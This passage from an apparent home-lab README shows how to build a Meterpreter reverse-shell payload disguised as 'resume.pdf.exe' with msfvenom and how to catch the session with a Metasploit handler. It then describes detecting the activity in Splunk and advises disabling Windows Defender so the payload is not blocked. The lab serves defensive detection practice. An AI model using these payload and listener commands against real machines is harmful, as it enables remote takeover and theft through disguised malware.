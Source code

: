    ```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
- This creates `resume.pdf.exe`, which acts as our payload.

---
## Step 5: Setting Up a Metasploit Listener
1. Open Metasploit on Kali:
   ```bash
   msfconsole
   ```
2. Configure the listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 4444
   exploit
   ```
3. Deploy `resume.pdf.exe` on Windows 10 and execute it.
4. If successful, you gain a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```

---
## Step 6: Monitoring Logs with Splunk
1. Open Splunk and search for unauthorized activity:
   ```
   index=main sourcetype=WinEventLog:Security
   ```
2. Identify anomalies related to unauthorized access.
3. Create alerts to detect suspicious behavior.

---
## 🔍Troubleshooting
### 1. Metasploit Handler Not Receiving a Session
- Ensure Windows Defender is **disabled** to prevent blocking the payload.
- Double-check **LHOST and LPORT settings** in both `msfvenom` and `msfconsole`.
- Run the payload on Windows as **Administrator**.

### 2. Splunk Not Logging Events
- Verify Sysmon is correctly installed and running.
- Ensure Windows Event Logging is enabled in Splunk.
- Restart Splunk and recheck the event index.

---
## 🎯Next Steps & Future Improvements
- Integrate **ELK Stack** for enhanced log analysis.
- Automate attack execution using **Python scripts**.
- Implement **Wazuh SIEM** for better threat detection.

---